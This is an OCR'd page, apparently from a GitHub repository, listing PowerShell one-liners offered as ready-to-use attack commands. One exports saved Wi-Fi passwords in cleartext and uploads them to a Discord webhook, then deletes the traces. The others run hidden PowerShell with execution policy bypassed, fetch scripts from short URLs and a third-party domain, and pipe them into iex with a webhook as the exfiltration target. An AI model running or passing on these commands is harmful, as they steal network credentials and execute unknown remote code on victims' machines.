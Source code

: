 weeefy:

cd $env:tmp;netsh wlan export profile key=clear;Select-String -Path Wi*.xml -Pattern 'keyMa*' > Wi-Fi;curl.exe -F "f=@Wi-Fi" "https://discord.com/api/webhooks/1291043643804614757/c1V5o7T1Ss0t1fMThP98fAZK9mFCrB9tK4gCWProZ3RgHdl1VHvBy_lGudQPI_eVWKsc";rm "Wi-*"


key
powershell -NoP -Ep Bypass -W H -C irm https://shorturl.at/nfap5 | iex


powershell -w h -NoP -Ep Bypass $dc='https://discord.com/api/webhooks/1291043643804614757/c1V5o7T1Ss0t1fMThP98fAZK9mFCrB9tK4gCWProZ3RgHdl1VHvBy_lGudQPI_eVWKsc';$db='';irm jakoby.lol/9nb | iex


powershell -w h -ep bypass $dc='https://discord.com/api/webhooks/1291043643804614757/c1V5o7T1Ss0t1fMThP98fAZK9mFCrB9tK4gCWProZ3RgHdl1VHvBy_lGudQPI_eVWKsc';irm https://jakoby.lol/hgw | iex


keygoogle:

powershell -NoP -Ep Bypass -C $dc='https://discord.com/api/webhooks/1339618114744356956/4f8M1Rc5gXJFuOM2rs4wouWy0MdYZD-esxDWnAKEqOKHzuhrsPfGds2EFGhwht63EhqE
'; irm https://t.ly/rJl5k | iex



